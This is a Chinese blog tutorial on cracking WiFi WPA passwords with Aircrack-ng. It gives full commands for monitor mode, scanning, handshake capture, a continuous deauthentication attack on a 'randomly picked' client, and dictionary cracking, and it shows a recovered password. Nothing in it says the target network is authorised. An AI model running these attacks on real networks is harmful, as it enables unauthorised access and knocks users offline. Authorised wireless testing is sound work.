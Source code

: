 ```yaml
---
layout:     post
title:      无线攻防之Aircrack-ng
subtitle:   Aircrack-ng暴力破解
date:       2019-05-29
author:     Threekb
header-img: img/post-bg-coffee.jpeg
catalog: true
tags:
    - aircrack-ng
    - 无线网渗透
    - 无线攻防
    - 暴力破解
---
```


# 无线攻防之Aircrack-ng

**Aircrack-ng是无线渗透测试过程中一款非常经典的工具，命令行的操作界面也非常方便快捷，简单的几句命令行轻松拿下目标无线网！**

​	

> 由于kali已经集成了Aircrack-ng，这里就不做安装了
>
> 使用windows或者其他linux发行版系统的同学可以到[这里](https://www.aircrack-ng.org/downloads.html)下载安装

### 第一步：

* 将无线网卡插入电脑，如果是虚拟机并接入虚拟机，并在kali终端查看可用的无线网卡

* 输入  `airmon-ng` 查看可用网卡

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529202827.png)

### 第二步：

* 将无线网卡开启监听模式

* 输入`airmon-ng start + 无线网卡名称` 开启网卡监听模式

* 例如：`airmon-ng start wlan0`

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203121.png)

* 这里要注意的是，开启监听模式之后，会给监听模式中的无线网卡重命名一个`wlan0mon` 后续的操作会到

### 第三步

* 扫描附近的无线网络

* 输入`airodump-ng + 处于监听模式的重命名后的无线网卡的名称` 扫描附近网络

* 例如:`airodump-ng wlan0mon`

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203509.png)

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529203531.png)

* 已经扫描出来一些无线网，这里有几个关键的信息需要注意一下
  * BSSID（ap的硬件地址）
  * PWR（信号强度，绝对值越小信号越强）
  * ENC（加密方式）
  * ESSID（ap名称）
  * STATION(用户设备的硬件地址)
  * CH（网络信道）

* 这些关键的信息待会会用到

### 第四步

* 确定好攻击的目标之后，准备抓取握手包
* 使用
* `airodump-ng -w <扫描结果保存的文件名> -c <无线网络信道> --bssid <目标无线 AP 的硬件地址> <处于监听模式的网卡名称>`确定扫描目标
* 例如：airodump-ng -w /root/桌面/rising/rising -c 6 --bssid 22:47:DA:62:2A:F0 wlan0mon

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211009.png)

* `因为扫描过程中如果有用户尝试连接wifi的时候才能拿到握手包，所以可以使用第五步的命令对设备进行攻击，让他掉线重新连接，这样就能拿到握手包，拿到握手包之后ctrl+c结束就行`

### 第五步

* 使用aireplay-ng对目标设备发起攻击

* 使用`aireplay-ng -攻击模式 共计次数 -a 无线ap硬件地址 -c 用户设备硬件地址 处于监听模式网卡名称`对目标进行攻击使其掉线

* 例如：aireplay-ng -0 0 -a 22:47:DA:62:2A:F0 -c AC:BC:32:96:31:8D wlan0mon

  * ok，随机挑选一名幸运观众开始攻击

  ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211928.png)

  

  ​                         ![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529211449.png)

### 第六步

* 拿到握手包之后使用aircrack暴力破解wifi密码

* 6.aircrack-ng  -w 密码字典  握手包的cap文件

* 例如：`aircrack-ng -w /root/桌面/krl.txt rising-01.cap`

  

  >  成功拿到握手包

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529213709.png)

* 使用命令开始进行爆破

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529212809.png)

* 成功破解 密码[rising616]

![](https://threekb-1259310634.cos.ap-beijing.myqcloud.com/blog/20190529213153.png)



> ##### 当然，如果嫌自带工具效率不高，可以将握手包拷出来，使用大名鼎鼎的ewsa进行爆破，这个方式我会在另外一篇去介绍！
